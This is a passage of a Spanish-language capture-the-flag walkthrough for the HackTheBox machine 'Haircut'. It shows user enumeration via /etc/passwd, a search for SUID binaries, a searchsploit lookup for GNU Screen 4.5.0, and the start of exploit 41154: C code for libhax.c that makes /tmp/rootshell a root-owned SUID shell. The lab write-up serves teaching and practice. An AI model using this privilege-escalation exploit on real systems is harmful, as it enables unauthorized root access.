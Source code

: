 ```bash
www-data@haircut:~/html$ grep "sh$" /etc/passwd

root:x:0:0:root:/root:/bin/bash
maria:x:1000:1000:maria,,,:/home/maria:/bin/bash
```

Vemos que existe un usuario con nombre **maria**.

Si enumeramos binarios del sistema que puedan contener permisos SUID, nos encontramos con el siguiente:

```bash
www-data@haircut:~$ find / -perm -4000 2>/dev/null
...
/usr/bin/screen-4.5.0
...
```

Este binario llama la atención ya que no se encuentra entre los binarios por defecto de un sistema GNU/Linux con permisos SUID.

Si echamos un ojo a searchsploit, nos indica que existen exploits para LPE (Local Privilege Escalation):

```bash
searchsploit screen 4.5                                               
---------------------------------------------------- ---------------------------------
 Exploit Title                                      |  Path
---------------------------------------------------- ---------------------------------
GNU Screen 4.5.0 - Local Privilege Escalation       | linux/local/41154.sh
GNU Screen 4.5.0 - Local Privilege Escalation (PoC) | linux/local/41152.txt
```

## Escalada de privilegios

Elegimos el exploit **41154**, le echamos un vistazo al código y vemos que la intención es crear un compilado del archivo **libhax** y **rootshell** en lenguaje **C**.

Como yo he tenido problemas a la hora de compilar en la máquina de HTB, lo he realizado en mi máquina local y he subido los archivos ya compilados al directorio /tmp de la máquina Haircut:

1 - Creamos el archivo **"libhax.c"** con el editor:

```c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\\n");
}
```

